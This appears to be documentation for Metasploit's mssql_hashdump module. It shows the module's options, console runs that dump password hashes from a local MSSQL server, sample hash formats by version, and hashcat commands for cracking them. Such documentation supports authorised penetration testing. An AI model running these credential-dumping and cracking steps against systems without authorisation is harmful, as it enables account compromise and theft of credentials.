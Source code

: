 ## Description

The `mssql_hashdump` module queries an MSSQL instance or session and returns hashed user:pass pairs. These pairs can be decripted via or `hashcat`.

## Available Options

```
msf auxiliary(scanner/mssql/mssql_hashdump) > options

Module options (auxiliary/scanner/mssql/mssql_hashdump):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentication (requires DOMAIN option set)


   Used when making a new connection via RHOSTS:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  MSSQL            no        The database to authenticate against
   PASSWORD                   no        The password for the specified username
   RHOSTS                     no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     1433             no        The target port (TCP)
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME  MSSQL            no        The username to authenticate as


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on
```

## Scenarios

With a session:
```
msf auxiliary(scanner/mssql/mssql_hashdump) > sessions

Active sessions
===============

  Id  Name  Type   Information                Connection
  --  ----  ----   -----------                ----------
  1         mssql  MSSQL sa @ 127.0.0.1:1433  127.0.0.1:52307 -> 127.0.0.1:1433 (127.0.0.1)

msf auxiliary(scanner/mssql/mssql_hashdump) > run session=-1

[*] Using existing session 1
[*] Instance Name: "758549b9f69e"
[+] Saving mssql12 = sa:0x0200F433830BDBA809805FE53E59E7A1AACF9AC21241881F76B9B95EDC713FD01C8E692705409A5C0F8A46DDB1707A283BA9307D6B3C664BB9F7652758B70262C88F629DBC7E
[+] Saving mssql12 = ##MS_PolicyEventProcessingLogin##:0x02003F137BFF990AE7D0B89DA15EEDF4B962E200A9AAECE6AC7E4786176A08C4D278C0E9B203795F972CB508FD17827A755AF4284A9891F01C502EEBB5ECFABD7FA6CD3603E2
[+] Saving mssql12 = ##MS_PolicyTsqlExecutionLogin##:0x0200DA9B84641F740A6423EC34F1B354FB81D9DF53456A7A7A8CCB794B295896C0CD19718C2C9537D3A7E82C41350F1549E2E2B99D819345DCABF1855AF2F83FA6CDC3EF8F96
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/mssql/mssql_hashdump) > run RPORT=1433 RHOSTS=127.0.0.1 USERNAME=sa PASSWORD=yourStrong(!)Password

[*] 127.0.0.1:1433 - Instance Name: "758549b9f69e"
[+] 127.0.0.1:1433 - Saving mssql12 = sa:0x0200F433830BDBA809805FE53E59E7A1AACF9AC21241881F76B9B95EDC713FD01C8E692705409A5C0F8A46DDB1707A283BA9307D6B3C664BB9F7652758B70262C88F629DBC7E
[+] 127.0.0.1:1433 - Saving mssql12 = ##MS_PolicyEventProcessingLogin##:0x02003F137BFF990AE7D0B89DA15EEDF4B962E200A9AAECE6AC7E4786176A08C4D278C0E9B203795F972CB508FD17827A755AF4284A9891F01C502EEBB5ECFABD7FA6CD3603E2
[+] 127.0.0.1:1433 - Saving mssql12 = ##MS_PolicyTsqlExecutionLogin##:0x0200DA9B84641F740A6423EC34F1B354FB81D9DF53456A7A7A8CCB794B295896C0CD19718C2C9537D3A7E82C41350F1549E2E2B99D819345DCABF1855AF2F83FA6CDC3EF8F96
[*] 127.0.0.1:1433 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Directly querying a machine:
```
msf auxiliary(scanner/mssql/mssql_hashdump) > run RPORT=1433 RHOSTS=127.0.0.1 USERNAME=sa PASSWORD=yourStrong(!)Password

[*] 127.0.0.1:1433 - Instance Name: "758549b9f69e"
[+] 127.0.0.1:1433 - Saving mssql12 = sa:0x0200F433830BDBA809805FE53E59E7A1AACF9AC21241881F76B9B95EDC713FD01C8E692705409A5C0F8A46DDB1707A283BA9307D6B3C664BB9F7652758B70262C88F629DBC7E
[+] 127.0.0.1:1433 - Saving mssql12 = ##MS_PolicyEventProcessingLogin##:0x02003F137BFF990AE7D0B89DA15EEDF4B962E200A9AAECE6AC7E4786176A08C4D278C0E9B203795F972CB508FD17827A755AF4284A9891F01C502EEBB5ECFABD7FA6CD3603E2
[+] 127.0.0.1:1433 - Saving mssql12 = ##MS_PolicyTsqlExecutionLogin##:0x0200DA9B84641F740A6423EC34F1B354FB81D9DF53456A7A7A8CCB794B295896C0CD19718C2C9537D3A7E82C41350F1549E2E2B99D819345DCABF1855AF2F83FA6CDC3EF8F96
[*] 127.0.0.1:1433 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Different MSSQL Versions have different hash formats. For example:

MSSQL (2000): 0x01002702560500000000000000000000000000000000000000008db43dd9b1972a636ad0c7d4b8c515cb8ce46578
MSSQL (2005): 0x010018102152f8f28c8499d8ef263c53f8be369d799f931b2fbe
MSSQL (2012 and later): 0x02000102030434ea1b17802fd95ea6316bd61d2c94622ca3812793e8fb1672487b5c904a45a31b2ab4a78890d563d2fcf5663e46fe797d71550494be50cf4915d3f4d55ec375

To decrypt:
Save into a `passwords.txt` file
Run with hashcat, based on the MSSQL Version:
`hashcat --force -m 131 ./hashes.txt ./passwords.txt` (MSSQL 2000)
`hashcat --force -m 132 ./hashes.txt ./passwords.txt` (MSSQL 2005)
`hashcat --force -m 1731 ./hashes.txt ./passwords.txt` (MSSQL 2012 and later)
